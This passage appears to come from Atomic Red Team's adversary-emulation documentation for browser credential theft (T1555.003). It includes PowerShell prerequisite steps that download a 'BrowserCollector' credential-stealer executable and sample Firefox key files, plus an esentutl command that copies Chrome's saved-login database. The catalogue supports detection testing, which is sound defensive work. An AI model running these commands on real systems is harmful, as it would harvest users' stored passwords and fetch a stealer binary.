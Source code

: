 ```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/SaulBerrenson/BrowserStealer/releases/download/1.0.0.4/BrowserCollector_x64.exe" -Outfile: "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe"
```
##### Description: Login Data file that is a copy of a Firefox Login Data that contains credentials for the tool to "steal." Must exist at the specified path.
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\src\key4.db") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1555.003/src/key4.db?raw=true" -Outfile: "PathToAtomicsFolder\T1555.003\src\key4.db"
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1555.003/src/logins.json?raw=true" -Outfile: "PathToAtomicsFolder\T1555.003\src\logins.json"
```




<br/>
<br/>

## Atomic Test #17 - Dump Chrome Login Data with esentutl
This test simulates an adversary using esentutl to dump encrypted credentials from Google Chrome's Login database.
[Reference](https://actzero.ai/resources/blog/hygiene-tip-shut-down-attackers-harvesting-cached-browser-credentials/)

**Supported Platforms:** Windows


**auto_generated_guid:** 70422253-8198-4019-b617-6be401b49fce





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_path | File path for login data dump | string | %temp%&#92;T1555.003_Login_Data.tmp|


#### Attack Commands: Run with `command_prompt`! 


```cmd
esentutl.exe /y "%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data" /d "#{output_path}"
```
